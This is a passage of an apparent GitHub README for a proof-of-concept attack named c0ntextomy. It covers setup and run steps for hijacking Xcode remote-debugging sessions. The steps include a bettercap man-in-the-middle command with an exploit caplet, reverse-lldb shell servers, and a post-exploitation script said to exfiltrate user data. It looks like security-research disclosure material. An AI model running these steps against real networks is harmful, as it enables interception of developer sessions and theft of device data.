     * For Ethernet: `sudo networksetup -setv6off Ethernet`
  * Enable remote debugging for __Victim #1__
    * Make sure a lock screen password is set
    * Connect the device to the machine using USB
    * In Xcode, open the `Devices and Simulators` window from the top `Window` menu or by using the following keyboard shortcut:
      * `cmd` + `Shift` + `2`
    * Select your device on the left menu
    * Enable the `Connect via network` option
    * Disconnect the device and make sure a little globe appeared next to the name of the device in Xcode
    * Verify that you are able to debug an app remotely by selecting the device as a target and running an app from Xcode

### Running
* __Attacker #0__
  * Ping both __Victim #0__ and __Victim #1__ to make sure the current ARP entries are correct.
  * From the root dir of `Bettercap` execute the following command:
    * `bettercap -gateway-override <GATEWAY_IP_ADDRESS> -iface <INTERFACE> -caplet exploit.cap`
      * Replace `<GATEWAY_IP_ADDRESS>` with the IP address of your gateway (usually the address of the router that manages your local network)
      * Replace `<INTERFACE>` with the interface used to physically connect the machine to the network
* __Attacker #1__
  * From `/c0ntextomy`, execute one of the following reverse-lldb-client servers:
    * `./c0ntextomy-lldb-shell <INTERFACE>` - Drops to a normal lldb shell connected to the hijacked session
    * `./c0ntextomy-lldb-ipython.py -i <INTERFACE>` - Drops to an ipython shell with connected to the hijacked session _(Note: ipython needs to be installed separately)_
    * `./rec0ntextualizer.py -i <INTERFACE>` - Our post-exploitation PoC which exfiltrates sensitive user data using the hijacked session.
* __Victim #0__
  * Open an Xcode project
  * Select the remote device (__Victim #1__) as a destination target
  * Run the project by hitting the play button or by using the following keyboard shortcut:
    * `cmd` + `r`

## References
* [bettercap](https://github.com/bettercap/bettercap) - The Swiss Army knife for 802.11, BLE and Ethernet networks reconnaissance and MITM attacks. (thanks [@evilsocket](https://twitter.com/evilsocket))
* [tools/vmacho](https://github.com/Siguza/misc/blob/master/vmacho.c) - Extracts a Mach-O into a raw, headless binary. (thanks [@s1guza](https://twitter.com/s1guza))
